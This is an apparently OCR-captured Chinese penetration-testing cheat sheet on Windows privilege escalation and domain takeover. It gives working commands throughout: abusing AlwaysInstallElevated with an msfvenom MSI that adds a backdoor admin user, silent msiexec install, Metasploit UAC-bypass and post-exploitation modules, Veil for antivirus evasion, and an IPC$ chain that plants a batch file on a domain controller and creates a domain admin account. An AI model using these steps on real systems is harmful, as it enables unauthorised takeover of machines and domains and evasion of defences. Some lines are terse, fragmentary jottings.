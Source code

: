 
AlwaysInstallElevated：

> AlwaysInstallElevated是微软允许非授权用户以SYSTEM权限运行安装文件(MSI)的一种设置。然而，给予用于这种权利会存在一定的安全隐患，因为如果这样做下面两个注册表的值会被置为"1"。

查询命令如下：
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
Note：如果这条命令出错类似于："The system was unable to find the specified registry key or value"，这可能是组策略里AlwaysInstallElevated没有被定义，因此不存在相关联的注册表项。

现在我们假设AlwaysInstallElevated已经启用了，我们可以利用MSFVenom工具来生成一个在目标机器上增加管理员用户的MSI安装文件：
```
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o rotten.msi
```
当我们在目标机器上加载了新生成的MSI文件后，我们可以使用Windows命令行工具Msiexec进行安装：
```
msiexec /quiet /qn /i C:\Users\Steve.INFERNO\Downloads\rotten.msi
```
Note:使用MSFVenom创建MSI文件时使用了always_install_elevated模块，那么在安装过程中会失败。这是因为操作系统会阻止未注册的安装。

下面的模块效果相同：
```
exploit/windows/local/always_install_elevated
```

使用Veil生成免杀payload：

> 这个按照提示走就行了，具体的查查资料。

msf在meterpreter下的bypassuac尝试：


```
use exploit/windows/local/bypassuac_eventvwr
#seach bypassuac
```

Meterpreter的post模块使用：

> 全都是后渗透模块，search post可得部分，在获取一定权限的session后，直接run即可。

迁移进程获得权限：

```
PS 查看域管理所在的进程
Migrate pid注入进程
```

从IPC$到域控【尼玛这得多好的运气】：
```
继续经典的IPC$到域控

Meterpreter下面shell

Net use \\域控ip\c$

Net time \\域控ip

Copy bat.bat \\域控ip\c$

At \\域控ip time c:\bat.bat

通往成功的路不只有一条，添加域管账户

Net user demo demo /ad /domain

Net group “domain admins” demo /ad /domain

到了此刻，我们已经拥有域管权限了
```